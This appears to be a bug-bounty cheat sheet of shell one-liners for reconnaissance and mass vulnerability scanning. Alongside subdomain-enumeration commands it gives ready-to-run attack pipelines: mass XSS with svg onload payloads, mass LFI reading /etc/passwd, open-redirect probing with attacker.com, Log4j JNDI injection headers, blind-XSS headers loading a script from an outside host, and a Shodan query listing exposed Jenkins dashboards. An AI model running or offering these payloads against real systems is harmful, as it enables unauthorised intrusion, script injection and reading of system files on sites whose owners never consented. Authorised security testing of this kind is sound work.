 ### Mass XSS via wayback machine[](https://0xmaruf.github.io/oneliners/#mass-xss-via-wayback-machine)

- `gau http://target.com | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'`  
    
- `gau google.com | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'`

### Mass IPs listing Via Shodan[](https://0xmaruf.github.io/oneliners/#mass-ips-listing-via-shodan)

- `shodan search --limit 1000 'http.title:"Dashboard [Jenkins]"' | awk '{print $1,":"$2}' | sed 's/ //' | httpx -silent | tee /root/Desktop/shodan.txt`

### Subdomain from crt.sh[](https://0xmaruf.github.io/oneliners/#subdomain-from-crtsh)

- `curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | tee /root/Desktop/crt.txt`

### wordpress mysql[](https://0xmaruf.github.io/oneliners/#wordpress-mysql)

- `sublist3r -d target.com | httpx -silent -path "/wp-content/mysql.sql" -mc 200 -t 250 -ports 80,443,8080,8443`

### Get all urls from sitemap[](https://0xmaruf.github.io/oneliners/#get-all-urls-from-sitemap)

- `curl -s https://target.com/sitemap.xml | xmllint --format - | grep -e 'loc' | sed -r 's|</?loc>||g'`

### Waybackurls Validators[](https://0xmaruf.github.io/oneliners/#waybackurls-validators)

- `waybackurls http://bugcrowd.com | grep "url" | xargs -n 1 curl -s -o /dev/null -w "%{http_code} > %{url_effective}\n" | sort`

### Extract all endpoints from js file[](https://0xmaruf.github.io/oneliners/#extract-all-endpoints-from-js-file)

- ``cat files.txt | grep -aoP "(?<=(\"|\'|`))\/[a-zA-Z0-9?&=\/-#.](?=(\"|\'|`))" | sort -u | tee output.txt``

### OneLiner http://rapiddns.io Curl for Doamin Recon :[](https://0xmaruf.github.io/oneliners/#oneliner--httprapiddnsio-curl-for-doamin-recon-)

- `curl -s "https://rapiddns.io/subdomain/target.com?full=1#result" | grep "<td><a" | cut -d '"' -f 2 | cut -d '/' -f3 | sed 's/?t=cname//g' | sed 's/#result//g' | sed 's/\.$//' | sort -u`

### Check Mass CNAME records[](https://0xmaruf.github.io/oneliners/#check-mass-cname-records)

- `cat live-domains.txt | while read domains;do dig $domains;done | grep CNAME`

### Mass LFI[](https://0xmaruf.github.io/oneliners/#mass-lfi)

- `cat hosts | httpx -path ///////../../../etc/passwd -mc 200 -match-string 'root:x:'`

### Open Redirect[](https://0xmaruf.github.io/oneliners/#open-redirect)

- `export LHOST="attacker.com"; gau target.com | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'`

### Find JavaScript Files[](https://0xmaruf.github.io/oneliners/#find-javascript-files)

- `assetfinder --subs-only HOST | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done`

### Get Subdomain from https://riddler.io[](https://0xmaruf.github.io/oneliners/#get-subdomain-from-httpsriddlerio)

- `curl -s "https://riddler.io/search/exportcsv?q=pld:target.com" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u`

### Get subdomain domain from web archive[](https://0xmaruf.github.io/oneliners/#get-subdomain-domain-from-web-archive)

- `curl -s "http://web.archive.org/cdx/search/cdx?url=*.target.com/*&output=text&fl=original&collapse=urlkey" | sed -e 's_https*://__' -e "s/\/.*//" | sort -u`
    
    ### Get subdomain from certspotter[](https://0xmaruf.github.io/oneliners/#get-subdomain-from-certspotter)
    

- `curl -s "https://certspotter.com/api/v1/issuances?domain=HOST&include_subdomains=true&expand=dns_names" | jq .[].dns_names | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u`

### Get subdomain from securitytrails[](https://0xmaruf.github.io/oneliners/#get-subdomain-from-securitytrails)

- `curl -s "https://api.securitytrails.com/v1/domain/target.com/subdomains" -H "APIKEY: {YourApiKey}" | jq -r '.subdomains[] | "\(.)" + "." + "target.com"'`

### Scan juicy ports only[](https://0xmaruf.github.io/oneliners/#scan-juicy-ports-only)

- `nmap -sV -p 21,22,80,25,465,587,1617,3000,4848,5985,8022,8080,8282,8484,\ 8585,9200,49153,49154,49202,49203 -v target.com`

### Dependency Confusion check NPM rsgistry[](https://0xmaruf.github.io/oneliners/#dependency-confusion-check-npm-rsgistry)

- `cat package.json | jq -r '.dependencies + .devDependencies' | cut -d : -f 1 | tr -d '"|}|{' | sort -u | tr -s " " | sort -u | xargs -n1 -I{} echo "https://registry.npmjs.org/{}" | grep -v "@" | httpx -status-code -silent -content-length -mc 404`

### Heartbleed vulnerability[](https://0xmaruf.github.io/oneliners/#heartbleed-vulnerability)

- `cat list.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line: safe; done`

### Log4j via httpx[](https://0xmaruf.github.io/oneliners/#log4j-via-httpx)

- `cat targets.txt | httpx -H "X-Api-Version: \${jndi:ldap://<ip><port>}" -H "User-Agent: \${jndi:ldap://<ip><port>}" -H "Referer: \${jndi:ldap://<ip><port>}"`

### mass blind xss[](https://0xmaruf.github.io/oneliners/#mass-blind-xss)

- `cat targets.txt| httpx -H "User-Agent: \"<script src=https://js.rip/0xmaruf></script>" -H "Host: \"<script src=https://js.rip/0xmaruf></script>" -H "Referer: \"<script src=https://js.rip/0xmaruf></script>" -H "Origin: \"<script src=https://js.rip/0xmaruf></script>"`

### Paramspider and kxss oneliners[](https://0xmaruf.github.io/oneliners/#paramspider-and-kxss-oneliners)

- `for URL in $(</home/kali/Desktop/subdomains.txt); do (python3 paramspider.py -d "${URL}"); done`

#Merge all txt files to one txt and run it on kxss `cat * | sort -u | tee merged.txt | kxss`


